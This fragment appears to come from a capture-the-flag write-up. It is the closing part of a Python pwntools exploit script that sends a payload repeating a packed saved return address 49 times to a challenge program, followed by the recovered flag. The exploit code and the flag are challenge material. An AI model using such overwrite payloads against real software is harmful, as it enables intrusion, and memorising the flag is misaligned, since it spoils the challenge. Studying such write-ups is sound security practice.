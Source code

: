 ```python
p.sendline('0')
recv_input()
p.sendline(p32(saved_eip) * 49)
recv_input()
p.sendline('')
recv_input()

p.sendline('0')

print(p.recvall())
```

flag: `FormattingMatters`